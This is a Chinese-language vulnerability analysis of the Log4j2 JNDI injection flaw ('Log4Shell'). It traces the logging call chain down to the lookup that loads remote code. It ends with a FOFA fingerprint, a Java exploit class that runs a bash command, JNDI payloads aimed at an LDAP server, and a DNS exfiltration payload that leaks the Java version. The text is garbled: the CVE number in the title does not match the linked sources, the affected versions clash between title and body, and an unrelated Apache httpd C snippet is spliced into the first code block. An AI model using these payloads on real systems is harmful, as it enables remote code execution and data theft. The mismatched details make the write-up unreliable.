# CVE-2021-44428 | log4j2 >= 2.14.x 存在JNDI RCE漏洞


## 0x00 漏洞说明

Apache Log4j2 版本 2.14.x 及以下版本存在远程代码执行漏洞。攻击者可在任何可记录在日志消息的参数中进行 JNDI 注入。当启用消息查找替换时，攻击者可以控制日志消息或日志消息的参数并执行从 LDAP 服务器加载的任意代码。


## 0x01 影响版本

- <= 2.14.x Apache Log4j2


## 0x02 漏洞成因

LogManager.getLogger().error()  与 LogManager.getLogger().fatal() 默认情况下记录错误日志，并经过递归拼接最终进入lookup方法，导致JNDI注入


## 0x03 漏洞代码


!FILENAME MessagePatternConverter.format
```java
@Override
public void format(final LogEvent event, final StringBuilder toAppendTo) {
    final Message msg = event.getMessage();
    if (msg instanceof StringBuilderFormattable) {

        final boolean doRender = textRenderer != null;
        final StringBuilder workingBuilder = doRender ? new StringBuilder(80) : toAppendTo;

        final int offset = workingBuilder.length();
        if (msg instanceof MultiFormatStringBuilderFormattable) {
            ((MultiFormatStringBuilderFormattable) msg).formatTo(formats, workingBuilder);
        } else {
            ((StringBuilderFormattable) msg).formatTo(workingBuilder);
        }
        if (config != null && !noLookups) {
            for (int i = offset; i < workingBuilder.length() - 1; i++) {
                // 是否以${开头
                if (workingBuilder.charAt(i) == '$' && workingBuilder.charAt(i + 1) == '{') {
                    // 这个value是：${jndi:ldap://127.0.0.1:1389/badClassName}
                    final String value = workingBuilder.substring(offset, workingBuilder.length());
                    workingBuilder.setLength(offset);
                    // 跟入replace方法
                    workingBuilder.append(config.getStrSubstitutor().replace(event, value));
                }
            }
        }
        if (doRender) {
            textRenderer.render(workingBuilder, toAppendTo);
        }
        return;
    }
    if (msg != null) {
        String result;
        if (msg instanceof MultiformatMessage) {
            result = ((MultiformatMessage) msg).getFormattedMessage(formats);
        } else {
            result = msg.getFormattedMessage();
        }
        if (result != null) {
            toAppendTo.append(config != null && result.contains("${")
                              ? config.getStrSubstitutor().replace(event, result) : result);
        } else {
            toAppendTo.append("null");
        }
    }
}# server/util.c 第 561 – 596 行

if (path[l] == '.') {
    /* Remove /./ segments */
    if (IS_SLASH_OR_NUL(path[l + 1])) {
        l++;
        if (path[l]) {
            l++;
        }
        continue;
    }

    /* Remove /xx/../ segments */
    if (path[l + 1] == '.' && IS_SLASH_OR_NUL(path[l + 2])) {
        /* Wind w back to remove the previous segment */
        if (w > 1) {
            do {
                w--;
            } while (w && !IS_SLASH(path[w - 1]));
        }
        else {
            /* Already at root, ignore and return a failure
             * if asked to.
             */
            if (flags & AP_NORMALIZE_NOT_ABOVE_ROOT) {
                ret = 0;
            }
        }

        /* Move l forward to the next segment */
        l += 2;
        if (path[l]) {
            l++;
        }
        continue;
    }
}
```


## 0x04 详细分析

在了解了相关漏洞情报和查看了[相关补丁更改记录](https://github.com/apache/logging-log4j2/pull/608/commits/7fe72d62fcb9246be792b946e405e1d40d402780)可以得出，该漏洞是通过jndi中LDAP注入的方式导致了RCE，并在对lookup函数进行了判断修改后又限制了jndi对LDAP的访问

翻阅[官方文档](https://logging.apache.org/log4j/2.x/manual/lookups.html)中关于lookup的说明

> Lookups provide a way to add values to the Log4j configuration at arbitrary places. They are a particular type of Plugin that implements the [StrLookup](https://logging.apache.org/log4j/2.x/log4j-core/apidocs/org/apache/logging/log4j/core/lookup/StrLookup.html) interface. Information on how to use Lookups in configuration files can be found in the [Property Substitution](https://logging.apache.org/log4j/2.x/manual/configuration.html#PropertySubstitution) section of the [Configuration](https://logging.apache.org/log4j/2.x/manual/configuration.html) page.
>
> lookup 提供了⼀种在任意位置向 Log4j2 配置添加值的⽅法，是实现 StrLookup 接⼝的特殊类型 的插件。


且 log4j支持的方法：

base64 、 data 、 ctx 、 main 、 env 、 sys 、 sd 、 java 、 marker 、 jndi 、 jvmrunargs 、 map 、 bundle 、 log4j


在官方文档中给出了JNDI lookup的用法说明

> JndiLookup 允许通过 JNDI 检索变量。默认情况下，该键将以 java:comp/env/ 为前缀，但是如果该键包含“:”，则不会添加前缀。

```html
<File name="Application" fileName="application.log">
  <PatternLayout>
    <pattern>%d %p %c{1.} [%t] $${jndi:logging/context-name} %m%n</pattern>
  </PatternLayout>
</File>
```

在Log4j 2.17.0之前存在漏洞的版本中，默认存在漏洞，且支持ldap协议，在之后需要设置[enableJndiLookup](https://logging.apache.org/log4j/2.x/manual/configuration.html#enableJndiLookup)且只支持java协议

实际上log4j中jndi的用法格式为:

```apl
${jndi:JNDIContent}
```

既然明确了漏洞出发的方法，那么就要去找入口点:

**LogManager.getLogger().xxxx()** 方法便是传入jndi语句的入口点

在log4j中，共有8个日志级别，可以通过 **LogManager.getLogger()** 调用记录日志的方法如
下：

```ABAP
LogManager.getLogger().error()
LogManager.getLogger().fatal()

LogManager.getLogger().trace()
LogManager.getLogger().traceExit()
LogManager.getLogger().traceEntry()
LogManager.getLogger().info()
LogManager.getLogger().warn()
LogManager.getLogger().debug()
LogManager.getLogger().log()
LogManager.getLogger().printf() 
```

在默认情况下，error()和fatal()方法可以触发漏洞，其余方法需要令行配置，并且可以通过isInfoEnabled()和其他函数检查状态:



原因是在logIfEnabled方法中，对当前日志等级进行了一次判断:


该方法返回一个布尔值，只有在当前事件的日志等级大于或等于设置的日志等级时，才会符合条件，当返回值为 **True** 时，将继续 **logMessage()** 方法。

这里拿error举例说明:

```java
Logger logger = LogManager.getLogger();
logger.error("error message: {}",${jndi:rmi://<ip>/<ref>});
```


查看error的类继承关系可以发现，实际上被调用的是 **AbstractLogger.java** 中的 **public void eror()** 方法



当消息进入到error()方法时，会传入到logIfEnabled()中进行逻辑判断日志等级



当isEnabled()返回True后，将会继续logMessage()方法




logMessage() 调用 logMessageSafely()：


ogMessageSafely() 调用 logMessageTrackRecursion()



 logMessageTrackRecursion() 调用 tryLogMessage()

```java
private void tryLogMessage(final String fqcn,
                           final StackTraceElement location,
                           final Level level,
                           final Marker marker,
                           final Message message,
                           final Throwable throwable) {
    try {
        log(level, marker, fqcn, location, message, throwable);
    } catch (final Exception e) {
        handleLogMessageException(e, fqcn, message);
    }
}
```


不动态调试的情况下跟`log`方法会到`AbstractLogger.log`方法，实际上这里是`org.apache.logging.log4j.core.Loggger.log`方法

```java
@Override
protected void log(final Level level, final Marker marker, final String fqcn, final StackTraceElement location,
                   final Message message, final Throwable throwable) {
    final ReliabilityStrategy strategy = privateConfig.loggerConfig.getReliabilityStrategy();
    if (strategy instanceof LocationAwareReliabilityStrategy) {
        // 触发点
        ((LocationAwareReliabilityStrategy) strategy).log(this, getName(), fqcn, location, marker, level,
                                                          message, throwable);
    } else {
        strategy.log(this, getName(), fqcn, marker, level, message, throwable);
    }
}
```

跟入这里的`log`方法到`org/apache/logging/log4j/core/config/DefaultReliabilityStrategy.log`

```java
@Override
public void log(final Supplier<LoggerConfig> reconfigured, final String loggerName, final String fqcn,
                final StackTraceElement location, final Marker marker, final Level level, final Message data,
                final Throwable t) {
    loggerConfig.log(loggerName, fqcn, location, marker, level, data, t);
}
```

进入`LoggerConfig.log`方法

```java
@PerformanceSensitive("allocation")
    public void log(final String loggerName, final String fqcn, final StackTraceElement location, final Marker marker,
        final Level level, final Message data, final Throwable t) {
        // 无需关心的代码
        ...
        try {
            // 跟入
            log(logEvent, LoggerConfigPredicate.ALL);
        } finally {
            ReusableLogEventFactory.release(logEvent);
        }
    }
```


`LoggerConfig`另一处重载`log`方法

```java
protected void log(final LogEvent event, final LoggerConfigPredicate predicate) {
    if (!isFiltered(event)) {
        // 跟入
        processLogEvent(event, predicate);
    }
}
```


**processLogEvent** 

```java
private void processLogEvent(final LogEvent event, final LoggerConfigPredicate predicate) {
    event.setIncludeLocation(isIncludeLocation());
    if (predicate.allow(this)) {
        // 关键点
        callAppenders(event);
    }
    logParent(event, predicate);
}
```

可以看到调用`appender.control`的`callAppenders`方法

```java
@PerformanceSensitive("allocation")
protected void callAppenders(final LogEvent event) {
    final AppenderControl[] controls = appenders.get();
    //noinspection ForLoopReplaceableByForEach
    for (int i = 0; i < controls.length; i++) {
        controls[i].callAppender(event);
    }
}
```


层层跟入到`AppenderControl.tryCallAppender`方法

```java
private void callAppender0(final LogEvent event) {
    ensureAppenderStarted();
    if (!isFilteredByAppender(event)) {
        // 跟入
        tryCallAppender(event);
    }
}
```

```java
private void tryCallAppender(final LogEvent event) {
    try {
        // 跟入
        appender.append(event);
    } catch (final RuntimeException error) {
        handleAppenderError(event, error);
    } catch (final Exception error) {
        handleAppenderError(event, new AppenderLoggingException(error));
    }
}
```

进入`AbstractOutputStreamAppender.append`方法，进入到`directEncodeEvent`方法

```java
protected void directEncodeEvent(final LogEvent event) {
    getLayout().encode(event, manager);
    if (this.immediateFlush || event.isEndOfBatch()) {
        manager.flush();
    }
}
```

关注其中的`encode`方法跟入到`PatternLayout.encode`方法

```java
@Override
public void encode(final LogEvent event, final ByteBufferDestination destination) {
    if (!(eventSerializer instanceof Serializer2)) {
        super.encode(event, destination);
        return;
    }
    final StringBuilder text = toText((Serializer2) eventSerializer, event, getStringBuilder());
    final Encoder<StringBuilder> encoder = getStringBuilderEncoder();
    encoder.encode(text, destination);
    trimToMaxSize(text);
}
```

不用关心 `encode` 方法中多余的代码，这里触发点在`toText`方法

```java
private StringBuilder toText(final Serializer2 serializer, final LogEvent event,
                             final StringBuilder destination) {
    return serializer.toSerializable(event, destination);
}
```

从`toText`中转入`toSerializable`

```java
@Override
public StringBuilder toSerializable(final LogEvent event, final StringBuilder buffer) {
    final int len = formatters.length;
    for (int i = 0; i < len; i++) {
        // 发现其中某一处format方法触发漏洞
        formatters[i].format(event, buffer);
    }
    if (replace != null) {
        String str = buffer.toString();
        str = replace.format(str);
        buffer.setLength(0);
        buffer.append(str);
    }
    return buffer;
}
```

这里的`formatters`方法包含了多个`formatter`对象，其中出发漏洞的是第8个，其中包含`MessagePatternConverter`


跟入看到调用了`Converter`相关的方法

```java
public void format(final LogEvent event, final StringBuilder buf) {
    if (skipFormattingInfo) {
        converter.format(event, buf);
    } else {
        formatWithInfo(event, buf);
    }
}
```

不难看出每个`formatter`和`converter`为了构造日志的每一部分，这里在构造真正的日志信息字符串部分



跟入`MessagePatternConverter.format`方法，看到核心的部分

```java
@Override
public void format(final LogEvent event, final StringBuilder toAppendTo) {
    final Message msg = event.getMessage();
    if (msg instanceof StringBuilderFormattable) {

        final boolean doRender = textRenderer != null;
        final StringBuilder workingBuilder = doRender ? new StringBuilder(80) : toAppendTo;

        final int offset = workingBuilder.length();
        if (msg instanceof MultiFormatStringBuilderFormattable) {
            ((MultiFormatStringBuilderFormattable) msg).formatTo(formats, workingBuilder);
        } else {
            ((StringBuilderFormattable) msg).formatTo(workingBuilder);
        }
        if (config != null && !noLookups) {
            for (int i = offset; i < workingBuilder.length() - 1; i++) {
                // 是否以${开头
                if (workingBuilder.charAt(i) == '$' && workingBuilder.charAt(i + 1) == '{') {
                    // 这个value是：${jndi:ldap://127.0.0.1:1389/badClassName}
                    final String value = workingBuilder.substring(offset, workingBuilder.length());
                    workingBuilder.setLength(offset);
                    // 跟入replace方法
                    workingBuilder.append(config.getStrSubstitutor().replace(event, value));
                }
            }
        }
        if (doRender) {
            textRenderer.render(workingBuilder, toAppendTo);
        }
        return;
    }
    if (msg != null) {
        String result;
        if (msg instanceof MultiformatMessage) {
            result = ((MultiformatMessage) msg).getFormattedMessage(formats);
        } else {
            result = msg.getFormattedMessage();
        }
        if (result != null) {
            toAppendTo.append(config != null && result.contains("${")
                              ? config.getStrSubstitutor().replace(event, result) : result);
        } else {
            toAppendTo.append("null");
        }
    }
}
```


上面的步骤其实是一环套一环，排除一些不关键的调用路径，过程如下:

logMessage > logMessageSafely > logMessageTrackRecursion > tryLogMessage > log > DefaultReliabilityStrategy.log >  loggerConfig.log > processLogEvent > callAppenders > tryCallAppender >  append  >  tryAppend > directEncodeEvent > encode >  toText > toSerializable > format > PatternFormatter.format

第一个关键点在上文中 **PatternFormatter.java** 中的 **format** 方法:



红框标记内容为:

如果 config 不为 null，并且 nolookups 变量设置为 false，它将继续检查字符串是否以 **${**  开头（ 如果递归检测到 **$** 字符后跟了一个 **{** 字符，那么会对直到 **}** 中间的内容进行解析）

红框上方的内容:

```java
if (config != null && !noLookups)
```

如果`config` 不为 `null` ，并且 `nolookups` 变量设置为 `false`，才会继续 `${` 字符串检查

那么nsLookups又是从何而来?



这是一个布尔值，它取决于 `Constants.FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS` 和 `noLookupsIdx >= 0`

`noLookupsIdx` 来自 `loadNoLookups(options)`


`NOLOOKUPS` 是一个常数



由于没有提供 `loadNoLookups()`中所需的`options` loadNoLookups() 将返回 `-1`，这使得 noLookupsIdx >= 0 为 `false`。

那么常量来自属性值：


再看下面那行

```ABAP
workingBuilder.append(config.getStrSubstitutor().replace(event, value));
```

进入StrSubstitutor.replace方法


```java
public String replace(final LogEvent event, final String source) {
    if (source == null) {
        return null;
    }
    final StringBuilder buf = new StringBuilder(source);
    // 跟入
    if (!substitute(event, buf, 0, source.length())) {
        return source;
    }
    return buf.toString();
}
```


跟入`StrSubstitutor.substitute`方法，存在递归，逻辑较长,主要作用是递归处理日志输入，转为对应的输出

```java
private int substitute(final LogEvent event, final StringBuilder buf, final int offset, final int length,
                       List<String> priorVariables) {
    ...
    substitute(event, bufName, 0, bufName.length());
    ...
    String varValue = resolveVariable(event, varName, buf, startPos, endPos);
    ...
    int change = substitute(event, buf, startPos, varLen, priorVariables);
}
```

在这里要说一下，触发漏洞的必要条件其实就是此章节最上头写的那些:

```java
Logger logger = LogManager.getLogger();
logger.error("error message: {}",${jndi:rmi://<ip>/<ref>});
```

通常程序员会写下这样的日志代码，去记录一些错误日志，当攻击方输入恶意payload后，将会使变量进行更改，类似 `logger.error("error_message:${jndi:ldap://127.0.0.1:1389/badClassName}");`

而`StrSubstitutor.substitute`的递归将使`jndi:ldap://127.0.0.1:1389/badClassName`进入`resolveVariable` 方法	



经过调试确认了关键方法`resolveVariable`

```java
protected String resolveVariable(final LogEvent event, final String variableName, final StringBuilder buf,
                                 final int startPos, final int endPos) {
    final StrLookup resolver = getVariableResolver();
    if (resolver == null) {
        return null;
    }
    // 进入
    return resolver.lookup(event, variableName);
}
```

接下来进入了最关键的`lookup()`方法:

```java
@Override
public String lookup(final LogEvent event, String var) {
    if (var == null) {
        return null;
    }

    final int prefixPos = var.indexOf(PREFIX_SEPARATOR);
    if (prefixPos >= 0) {
        final String prefix = var.substring(0, prefixPos).toLowerCase(Locale.US);
        final String name = var.substring(prefixPos + 1);
        // 关键
        final StrLookup lookup = strLookupMap.get(prefix);
        if (lookup instanceof ConfigurationAware) {
            ((ConfigurationAware) lookup).setConfiguration(configuration);
        }
        String value = null;
        if (lookup != null) {
            // 这里的name是：ldap://127.0.0.1:1389/badClassName
            value = event == null ? lookup.lookup(name) : lookup.lookup(event, name);
        }

        if (value != null) {
            return value;
        }
        var = var.substring(prefixPos + 1);
    }
    if (defaultLookup != null) {
        return event == null ? defaultLookup.lookup(var) : defaultLookup.lookup(event, var);
    }
    return null;
}
```


其中画框重点的 `strLookupMap` 包含以下值(内置方法)：


如果匹配到内置方法，那么就进入对应的处理方法，这里是 JNDI 方法，那么就会由`JndiLookup
`类进一步处理



最终加载由攻击者传入的LDAP服务端地址，然后返回一个恶意的 `JNDI Reference`对象，触发漏
洞，实现 RCE


## 0x05 漏洞指纹

fofa:

```
app="log4j2"
```


## 0x06 POC & EXP


!FILENAME exp.java
```java
public class Exploit {
    static {
        try {
        	String command = "touch /tmp/exploit.txt"; //
        	String[] commands = {"bash", "-c", command}; //
        	 
        	System.out.println("cmd : "+ commands[0]);
            int result = java.lang.Runtime.getRuntime().exec(commands).waitFor();
            System.out.println("result : "+ result);
        } catch (Exception e){
            e.printStackTrace();
        }
    }
    
    public static void main(String[] args) throws InterruptedException {
    	new Exploit();
    }
}
```


## 0x07 进阶利用思路


DNS信息外带

!FILENAME POC

```
${jndi:ldap://${sys:java.version}.xxxx.dnslog.cn}
```


## 0x08 扩展链接

https://n0b1ta.github.io/CVE-2021-44228-Apache-Log4jshell%E7%9A%84%E6%B7%B1%E5%85%A5%E6%80%9D%E8%80%83

https://security.tencent.com/index.php/blog/msg/131

https://y4y.space/2021/12/10/log4j-analysis-more-jndi-injection/

https://xz.aliyun.com/t/10649

https://www.reddit.com/r/blueteamsec/comments/rd38z9/log4j_0day_being_exploited/

https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf

http://blog.topsec.com.cn/java-jndi%E6%B3%A8%E5%85%A5%E7%9F%A5%E8%AF%86%E8%AF%A6%E8%A7%A3/

https://www.youtube.com/watch?v=Y8a5nB-vy78


## 0x9 联系方式

作者 : BitWiki支持团队
